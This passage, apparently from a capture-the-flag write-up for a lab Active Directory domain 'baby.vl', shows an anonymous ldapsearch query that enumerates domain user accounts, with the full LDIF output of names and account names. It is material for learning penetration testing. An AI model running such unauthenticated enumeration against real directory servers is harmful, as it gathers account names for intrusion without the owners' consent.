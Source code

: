 
Now let's enumerate all user accounts in the domain.

### Anonymous LDAP Domain Users Enumeration

```
ldapsearch -x -H ldap://10.10.105.113 -b "DC=baby,DC=vl" "(objectClass=user)" sAMAccountName

# extended LDIF
#
# LDAPv3
# base <DC=baby,DC=vl> with scope subtree
# filter: (objectClass=user)
# requesting: sAMAccountName
#

# Guest, Users, baby.vl
dn: CN=Guest,CN=Users,DC=baby,DC=vl
sAMAccountName: Guest

# Jacqueline Barnett, dev, baby.vl
dn: CN=Jacqueline Barnett,OU=dev,DC=baby,DC=vl
sAMAccountName: Jacqueline.Barnett

# Ashley Webb, dev, baby.vl
dn: CN=Ashley Webb,OU=dev,DC=baby,DC=vl
sAMAccountName: Ashley.Webb

# Hugh George, dev, baby.vl
dn: CN=Hugh George,OU=dev,DC=baby,DC=vl
sAMAccountName: Hugh.George

# Leonard Dyer, dev, baby.vl
dn: CN=Leonard Dyer,OU=dev,DC=baby,DC=vl
sAMAccountName: Leonard.Dyer

# Connor Wilkinson, it, baby.vl
dn: CN=Connor Wilkinson,OU=it,DC=baby,DC=vl
sAMAccountName: Connor.Wilkinson

# Joseph Hughes, it, baby.vl
dn: CN=Joseph Hughes,OU=it,DC=baby,DC=vl
sAMAccountName: Joseph.Hughes

# Kerry Wilson, it, baby.vl
dn: CN=Kerry Wilson,OU=it,DC=baby,DC=vl
sAMAccountName: Kerry.Wilson

# Teresa Bell, it, baby.vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
sAMAccountName: Teresa.Bell

# search reference
ref: ldap://ForestDnsZones.baby.vl/DC=ForestDnsZones,DC=baby,DC=vl

# search reference
ref: ldap://DomainDnsZones.baby.vl/DC=DomainDnsZones,DC=baby,DC=vl

# search reference
ref: ldap://baby.vl/CN=Configuration,DC=baby,DC=vl

# search result
search: 2
result: 0 Success
```